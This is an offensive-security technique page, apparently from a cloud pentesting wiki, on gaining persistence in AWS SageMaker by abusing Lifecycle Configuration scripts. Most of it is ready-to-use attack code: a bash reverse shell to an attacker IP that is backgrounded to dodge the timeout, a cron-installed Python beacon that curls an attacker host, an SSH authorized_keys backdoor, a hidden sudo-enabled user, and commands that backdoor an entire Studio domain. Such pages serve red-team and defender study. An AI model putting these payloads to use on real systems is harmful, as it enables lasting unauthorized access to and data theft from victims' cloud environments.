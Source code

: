 # AWS - SageMaker Persistence

## SageMaker Lifecycle Configurations (LCCs)


### LCC Overview

Amazon SageMaker is a comprehensive machine learning (ML) platform. A key feature for customizing SageMaker environments is Lifecycle Configurations (LCCs). These are shell scripts that automate environment setup upon the creation or start of SageMaker notebook instances and SageMaker Studio applications.

If an attacker gains permissions to create or modify LCCs (e.g., `sagemaker:CreateNotebookInstanceLifecycleConfig`), they can inject malicious scripts. These scripts execute with the privileges of the IAM role attached to the SageMaker resource, making LCCs a powerful vector for persistence.

### Key Constraints & Bypasses:

**Execution Time Limit:** LCC scripts are terminated after 5 minutes. This is the primary hurdle to overcome for long-running persistence mechanisms like reverse shells.

**Bypass:** The 5-minute timeout can be easily bypassed by backgrounding the malicious process using `nohup` and an ampersand (`&`). This allows the main LCC script to terminate successfully while the payload continues to run on the instance.

## Persistence in SageMaker Studio

While the examples below focus on Notebook Instances, LCCs also apply to SageMaker Studio. The impact can be much higher in Studio, as an attacker can achieve persistence across multiple users.

An attacker with permissions like `sagemaker:CreateStudioLifecycleConfig` and `sagemaker:UpdateDomain` can attach a malicious LCC to an entire SageMaker Studio Domain. This forces the LCC to run for every user and every application (e.g., JupyterLab, Code Editor) launched within that domain.

This is accomplished by creating a Studio LCC and then using the update-domain command to set it as a default for all users, effectively backdooring the entire Studio environment.

```bash
# Attacker creates a malicious Studio LCC
aws sagemaker create-studio-lifecycle-config --studio-lifecycle-config-name "malicious-default-lcc" ...

# Attacker updates the domain to apply the LCC to all users' JupyterLab apps by default
aws sagemaker update-domain --domain-id <domain-id> --default-user-settings '{
    "JupyterLabAppSettings": {
        "DefaultResourceSpec": { ... },
        "LifecycleConfigArns": ["arn:aws:sagemaker:region:account-id:studio-lifecycle-config/malicious-default-lcc"]
    }
}'
```

## Persistence Techniques via LCCs

### On-Start Reverse Shell

An attacker can configure an on-start LCC script to initiate a reverse shell every time the notebook instance is started. This provides persistent interactive access.

**Payload Example (Bash Reverse Shell):**

This script should be Base64 encoded and used as the content for the on-start LCC script.

```bash
#!/bin/bash

# Attacker's Listening IP and Port
ATTACKER_IP="<ATTACKER_IP>"
ATTACKER_PORT="<ATTACKER_PORT>"

# Background the reverse shell to bypass the 5-minute LCC timeout
nohup bash -i >& /dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0>&1 &
```

### Scheduled Task / Cron Job

For stealthier, long-term persistence, an LCC can be used to inject a cron job into the ec2-user's crontab. This allows for periodic execution of a payload.

**Payload Example (Cron Job Injection):**

This script creates a payload and adds a cron job to execute it every 30 minutes.

```bash
#!/bin/bash

# Define the payload path and the command for the cron job
PAYLOAD_SCRIPT="/home/ec2-user/SageMaker/.local/update.py"
CRON_CMD="/usr/bin/python3 $PAYLOAD_SCRIPT"
CRON_JOB="*/30 * * * * $CRON_CMD"

# Create a directory for the payload
mkdir -p /home/ec2-user/SageMaker/.local

# Drop the malicious Python payload (e.g., a beacon or data exfil script)
cat << EOF > $PAYLOAD_SCRIPT
#!/usr/bin/python3
import os
# Example C2 beacon
os.system("curl -s http://<ATTACKER_IP>/beacon?id=$(hostname)")
EOF
chmod +x $PAYLOAD_SCRIPT

# Add the cron job idempotently (won't add duplicates)
(crontab -u ec2-user -l 2>/dev/null | grep -Fq "$CRON_CMD") || \
( (crontab -u ec2-user -l 2>/dev/null; echo "$CRON_JOB") | crontab -u ec2-user - )
```

## System-Level Backdoors (Requires Root)

If the SageMaker notebook instance has root access enabled (a common default), an LCC with sudo privileges can perform system-level modifications for persistence.

### SSH Backdoor via authorized_keys

This technique adds an attacker's public SSH key to a user's authorized_keys file.

**Payload Example (Add SSH Key):**

```bash
#!/bin/bash

# Attacker's public SSH key
ATTACKER_SSH_KEY="ssh-rsa AAAA..."

# Target user's authorized_keys file
TARGET_USER="ec2-user"
AUTH_KEYS_FILE="/home/$TARGET_USER/.ssh/authorized_keys"

# Ensure the .ssh directory exists and add the key
mkdir -p "$(dirname "$AUTH_KEYS_FILE")"
echo "$ATTACKER_SSH_KEY" >> "$AUTH_KEYS_FILE"

# Set correct permissions
chmod 700 "$(dirname "$AUTH_KEYS_FILE")"
chmod 600 "$AUTH_KEYS_FILE"
chown -R $TARGET_USER:$TARGET_USER "$(dirname "$AUTH_KEYS_FILE")"
```

### Backdoor User Account

This technique creates a new user with sudo privileges. This can be harder to spot than a modification to an existing user.

**Payload Example (Create Privileged User):**

```bash
#!/bin/bash

# New user details
NEW_USER="sys-updater"
NEW_PASS="A.Very.Complex.Password.123!"

# Create the new user
useradd -m -s /bin/bash $NEW_USER

# Set the password
echo "$NEW_USER:$NEW_PASS" | chpasswd

# Add the new user to the wheel group for sudo privileges
# On Amazon Linux, 'wheel' is the standard for sudo
usermod -aG wheel $NEW_USER
```

---

